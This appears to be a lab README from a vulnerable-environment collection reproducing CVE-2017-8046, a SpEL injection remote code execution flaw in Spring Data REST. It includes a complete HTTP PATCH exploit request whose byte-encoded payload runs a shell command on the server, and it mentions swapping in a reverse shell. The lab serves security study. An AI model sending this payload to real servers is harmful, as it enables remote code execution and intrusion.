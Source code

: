 # Spring Data REST Remote Code Execution (CVE-2017-8046)

[中文版本(Chinese version)](README.zh-cn.md)

Spring Data REST is built on top of Spring Data to help developers easily create REST-style web services. In the Spring Data REST version before 2.6.9 or 3.0.1, the PATCH method of the REST API (implementing [RFC6902](https://tools.ietf.org/html/rfc6902)), the path value is passed to `setValue`, which leads to the execution of SpEL expressions, triggering a remote code execution vulnerability.

Reference links:

- http://xxlegend.com/2017/09/29/Spring%20Data%20Rest服务器PATCH请求远程代码执行漏洞CVE-2017-8046补充分析/
- https://tech.meituan.com/Spring_Data_REST_远程代码执行漏洞%28CVE-2017-8046%29_分析与复现.html

## Environment Setup

Execute the following command to start a Web application based on Spring Data REST 2.6.6:

```
docker compose up -d
```

After the server starts, visit `http://your-ip:8080/` to see a JSON format response, indicating this is a RESTful API server.

## Vulnerability Reproduce

Visit `http://your-ip:8080/customers/1` to see a resource. We use a PATCH request to modify it:

```
PATCH /customers/1 HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json-patch+json
Content-Length: 202

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]

```

The path value is a SpEL expression. Sending the above packet will execute the command `touch /tmp/success` represented by `new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}`. Then enter the container with `docker compose exec spring bash` to check:

![](1.png)

As you can see, the file "/tmp/success" has been created successfully.

Change the bytecode to a reverse shell command (Note: [Java reverse shell limitations and workarounds](http://www.jackson-t.ca/runtime-exec-payloads.html)), and successfully get the shell:

![](2.png)
